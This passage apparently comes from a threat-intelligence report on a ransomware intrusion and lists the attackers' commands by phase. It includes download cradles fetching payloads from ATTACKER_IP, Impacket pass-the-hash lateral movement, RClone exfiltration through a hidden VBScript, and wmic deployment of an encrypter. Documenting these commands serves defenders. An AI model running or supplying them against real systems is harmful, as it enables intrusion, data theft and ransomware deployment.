 ##### Command and Control

The list of commands used to download tools onto compromised endpoints.

```sh
bitsadmin /transfer mydownloadjob /download /priority normal http://ATTACKER_IP/download/test1.exe C:\programdata\s1.exe (failed)

certutil -urlcache -split -f http://ATTACKER_IP/download/test1.exe C:\programdata\cscs.exe 

powershell.exe -nop -w hidden -c “IEX ((new-object net.webclient).downloadstring('http://ATTACKER_IP/ksajSk'))”

powershell.exe Invoke-WebRequest http://temp.sh/ATTACKER_URL/http64.exe -OutFile C:\programdata\rr.exe   # Failed
```

##### Lateral Movement

The Impacket <i>WMIexec.py</i> command used to execute a binary on a remote system.

```sh
python wmiexec.py -hashes :NThash DOMAIN/DomainAdmin@DC_IP C:\ProgramData\goat.exe
```


##### Exfiltration

The command used to configure RClone.

```sh
Rclone.exe config
```

A VBScript used to execute a BAT file that subsequently executes RClone to copy content to a remote server.

```vb
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run chr(34) & "c:\programdata\rcl.bat" & Chr(34), 0
Set WshShell = Nothing
```

An example of what the BAT file could contain.

```sh
@echo off
Rclone.exe copy SRC_PATH DEST_HOST:DEST_PATH
```

##### Impact

Commands used to push the ScreenConnect installer and the encrypter malware to remote hosts and execute them with the `wmic` command.

```sh
# ScreenConnect installer
xcopy /F /Y "C:\programdata\setup.exe" "\\TARGET_HOST_IP\C$"  
cmd /c wmic /node:TARGET_HOST_IP process call create "C:\setup.exe"  

# File encrypter malware execution
xcopy /F /Y "C:\programdata\BNUfUOmFT2.exe" "\\TARGET_HOST_IP\C$\programdata"
cmd /c wmic /node:TARGET_HOST_IP process call create "C:\programdata\BNUfUOmFT2.exe p7BQXbycbpiH -QnA -4Nc -gd -A -4heGxsuj -yreVf -91nHs -9eGxd -etRzp6kw -gzfW3"
```
